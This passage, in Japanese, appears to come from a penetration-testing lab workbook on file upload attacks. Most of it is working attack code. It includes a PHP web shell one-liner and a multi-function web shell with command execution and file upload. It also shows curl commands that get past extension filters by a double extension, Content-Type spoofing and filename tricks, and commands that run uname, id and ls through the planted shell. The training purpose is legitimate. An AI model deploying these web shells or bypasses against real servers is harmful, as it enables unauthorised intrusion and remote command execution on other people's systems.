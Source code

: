 **課題**: シェルは正常にアップロードされましたか？コマンドは実行されましたか？

#### ステップ2: 拡張子制限の回避
```bash
# 1. 二重拡張子を使用
echo '<?php system($_GET["cmd"]); ?>' > image.jpg.php
curl -X POST "http://<target-url>/upload" \
  -F "file=@image.jpg.php"

# 2. Content-Typeの偽装
curl -X POST "http://<target-url>/upload" \
  -F "file=@shell.php;type=image/jpeg"

# 3. ファイル名の操作
curl -X POST "http://<target-url>/upload" \
  -F "file=@shell.php" \
  -F "filename=image.jpg"
```

**課題**: どの回避技術が成功しましたか？

### 演習3.3: 高度なファイルアップロード攻撃

#### ステップ1: より高度なWebシェル
```bash
# 1. 多機能Webシェルの作成
cat > advanced_shell.php << 'EOF'
<?php
if(isset($_GET['cmd'])) {
    echo "<pre>";
    system($_GET['cmd']);
    echo "</pre>";
}
if(isset($_POST['upload'])) {
    move_uploaded_file($_FILES['file']['tmp_name'], $_FILES['file']['name']);
    echo "File uploaded: " . $_FILES['file']['name'];
}
?>
<form method="post" enctype="multipart/form-data">
    <input type="file" name="file">
    <input type="submit" name="upload" value="Upload">
</form>
EOF

# 2. アップロードと実行
curl -X POST "http://<target-url>/upload" \
  -F "file=@advanced_shell.php"
```

#### ステップ2: システム情報の取得
```bash
# アップロードされたシェルを使用してシステム情報を取得
curl "http://<target-url>/uploads/advanced_shell.php?cmd=uname -a"
curl "http://<target-url>/uploads/advanced_shell.php?cmd=id"
curl "http://<target-url>/uploads/advanced_shell.php?cmd=ls -la /"
```
